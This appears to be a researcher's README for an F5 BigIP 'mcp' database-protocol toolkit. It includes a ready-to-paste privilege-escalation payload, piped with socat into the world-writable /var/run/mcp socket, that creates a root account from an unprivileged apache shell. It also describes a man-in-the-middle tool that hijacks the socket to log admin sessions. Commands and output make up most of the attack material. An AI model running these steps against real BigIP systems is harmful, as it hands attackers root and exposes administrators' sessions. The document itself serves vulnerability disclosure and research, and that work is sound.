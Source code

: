 This isn't really done or ready yet, but I wanted to get the code checked in.

This basically implements F5's database protocol, "mcp", which operates through
a UNIX domain socket.

# What is mcp?

MCP is a proprietary (AFAICT) database used by F5 BigIP. It's accessed through
`/var/run/mcp`, a UNIX domain socket with 0777 permissions (ie, any user can
access it).

The protocol is TLV-style, which a whole bunch of types (over 41,000). They're
all listed in [mcp-objects.txt](/mcp-objects.txt).

I implemented a parser that you can find in [mcp-parser.rb](/mcp-parser.rb),
and you can find a bunch of different messages in
[mcp-parser-tests.rb](/mcp-parser-tests.rb).

I also created a builder, [mcp-builder.rb](/mcp-builder.rb), although it's not
really designed to be easy to use. We do have a pre-defined function that
creates an MCP packet that creates a root-level user account, which is pretty
cool. You can use `mcp-privesc.rb` to create that packet.

# Building and Sending MCP Messages

To communicate with MCP directly, you'll generally use `socat`. The code in
`mcp-builder.rb` can create packets (though currently only does privilege
escalation via `mcp-privesc.rb`).

To use `mcp-privesc.rb`, run it and find a way to send the output into a
socket. You can provide optional username / password parameters as well. Here's
an example where we gzip + base64-encode the output:

```
$ ruby ./mcp-privesc.rb blogtest MyFunPW | gzip | base64 -w0
Attempting to create a crypt-sha512 hash of the password
Writing an `mcp` message to stdout that'll create an account: blogtest / $6$vdznqfyc$q9LEJmhlDZK3HQY0L0WuiKfXaKJtQmOY7lIkMS/IxftTmZs.PdlYXxmxjRQ4f529gl13NsqWlZdd/eksunJT01
Send it to the target using: socat -t100 - UNIX-CONNECT:/var/run/mcp < mcpmessage.bin

H4sIAAAAAAAAA2NgYBBnQAICGgy8QIpfQJOBH0izM7AmpuRm5oFkkJVx54CVcajaMbBChSxR5KPA8oYCLGBaU4ANbBwXA0dSTn56SWpxiQA7RKcAB8yiaMecnFgg8yAWg3ZyC4LpjdxC6AbJnwSLcDCwOefn5ubnCcZDDOaWBItzM3DqJ2Xm6SclFmdwi4ClGLmFwVIpDEkqZiplKVV5hWmVySqFlj6uXrkZOS5R3sYegZEGPgbhpZneaRGJ3l4lgbn+keY5ntm+wfqeFWklIblRxXoBKTmRERW5FVlBgSZppkaW6TmGxn7FheE5USkp+qnZxaV5XiEGhmCnIXsoD+wRBgAyeb1ueQEAAA==
```

Then we can copy and paste it to the F5 BigIP target, and send it using this
command (not that we're doing this as a non-root user as a demonstration):

```
$ whoami
apache

$ echo -ne 'H4sIAAAAAAAAA2NgYBBnQAICGgy8QIpfQJOBH0izM7AmpuRm5oFkkJVx54CVcajaMbBChSxR5KPA8oYCLGBaU4ANbBwXA0dSTn56SWpxiQA7RKcAB8yiaMecnFgg8yAWg3ZyC4LpjdxC6AbJnwSLcDCwOefn5ubnCcZDDOaWBItzM3DqJ2Xm6SclFmdwi4ClGLmFwVIpDEkqZiplKVV5hWmVySqFlj6uXrkZOS5R3sYegZEGPgbhpZneaRGJ3l4lgbn+keY5ntm+wfqeFWklIblRxXoBKTmRERW5FVlBgSZppkaW6TmGxn7FheE5USkp+qnZxaV5XiEGhmCnIXsoD+wRBgAyeb1ueQEAAA==' | base64 -d | gunzip - | socat -t100 - UNIX-CONNECT:/var/run/mcp | gzip | base64 -w0
H4sIAB91UGMAA2NgYJBjQALcIQy8QEqMO5SBFcwPZ+AR0OCOAJKaYAUEVXNHgVRzCzIwAABM8W1YXAAAAA==

bash-4.2$ su blogtest
Password: 
[...]

[blogtest@localhost:NO LICENSE:Standalone] config # whoami
root
```

We can also parse the response we got using `mcp-parser.rb`:

```
$ echo -ne 'H4sIAB91UGMAA2NgYJBjQALcIQy8QEqMO5SBFcwPZ+AR0OCOAJKaYAUEVXNHgVRzCzIwAABM8W1YXAAAAA==' | base64 -d | gunzip - | ruby ./mcp-parser.rb 
result (structure [22 bytes]):
 result_code (ulong) = 0x00000000 (0)
 result_operation (tag) = user_authenticated
 result_type (tag) = user_authenticated_name
result (structure [22 bytes]):
 result_code (ulong) = 0x00000000 (0)
 result_operation (tag) = create
 result_type (tag) = userdb_entry
```

You can, of course, do it all as a single command, although that doesn't really make sense for our `privesc` command, considering we're already root:

```
$ ruby ./mcp-privesc.rb blogtest2 MyFunPW | ssh root@10.0.0.162 socat -t100 - UNIX-CONNECT:/var/run/mcp | ruby ./mcp-parser.rb
Attempting to create a crypt-sha512 hash of the password
Writing an `mcp` message to stdout that'll create an account: blogtest2 / $6$dufuourf$gfuhZJZcXpfjcOTdyJdwsoLLX4EVwn7M9lDxk3LqDtj0PhwZS6Av2ua363xyzqNQFhVOWSiT3eYkInQN/aDkg.
Send it to the target using: socat -t100 - UNIX-CONNECT:/var/run/mcp < mcpmessage.bin

result (structure [22 bytes]):
 result_code (ulong) = 0x00000000 (0)
 result_operation (tag) = user_authenticated
 result_type (tag) = user_authenticated_name
result (structure [22 bytes]):
 result_code (ulong) = 0x00000000 (0)
 result_operation (tag) = create
 result_type (tag) = userdb_entry

ron@fedora ~/shared/analysis/f5-big-ip-0day/analysis/mcp/parser [main]× $ ssh blogtest2@10.0.0.162
(blogtest2@10.0.0.162) Password: 
(blogtest2@10.0.0.162) You are required to change your password immediately (root enforced)
[...]

[blogtest2@localhost:NO LICENSE:Standalone] ~ # whoami
root
```

# Connection Eavesdropping

I also wrote a tool to inspect/log database queries in real time -
[mcp-mitm.rb](/mcp-mitm.rb). This isn't an exploit, it's just an analysis tool
that requires a root login. Effectively, it moves `/var/run/mcp` and replaces
it with a socket that we control, then parses all the messages going through it.

To run it:

* Ensure the server isn't being used for anything important - this is somewhere between "destructive" and "interrupty" because we yoink the database socket (it does try to fix it after!)
* Ensure the F5 Big-IP host can connect back to you on any two ports (1234 and 1235 by default)
* Ensure you can `ssh root@<target>` with no password or other input (or edit the code and turn off `DO_SETUP`)

Pretty much any potential "damage" is fixed with a reboot, since it creates the
socket at boot, but you probably don't wanna do that on prod.

Anyway, execute with no args to get the usage, then fill in the important IP
addresses:

```
$ ruby ./mcp-mitm.rb
Usage: ruby ./mcp-mitm.rb <your ip> <target ip> [listen port 1] [listen port 2]
[...]

$ ruby ./mcp-mitm.rb 10.0.0.179 10.0.0.162

$ ruby ./mcp-mitm.rb 10.0.0.179 10.0.0.162
Configuration (edit the script to change, this is a PoC!):

Your IP: 10.0.0.179
Target IP: 10.0.0.162
Listening port 1: 1234
Listening port 2: 1235
SSH into the target to set things up: true
  (Make sure you can ssh into the host as root with no password)
  (Yes yes, I know it's a PoC!)
SSH'ing into the server to set things up
Ready!
```

If you wait around (or do stuff on the server), you'll see sessions:

```
Received session @ #<TCPSocket:0x000000000170d630> <--> #<TCPSocket:0x000000000170d658>

user_authenticated (structure [15 bytes]):
 user_authenticated_name (string [7 bytes]) = "admin"

start_transaction (structure [8 bytes]):
 start_transaction_load_type (ulong) = 0x00000000 (0)
[...]
```

Ctrl-c will stop it, and fix the socket:

```
^CSSH'ing into the server to fix things
Session 1 closed?
Ending thread
Ending thread
Traceback (most recent call last):
        3: from ./mcp-mitm.rb:149:in `<main>'
        2: from ./mcp-mitm.rb:149:in `loop'
        1: from ./mcp-mitm.rb:151:in `block in <main>'
./mcp-mitm.rb:151:in `accept': Interrupt
```

And that's it!
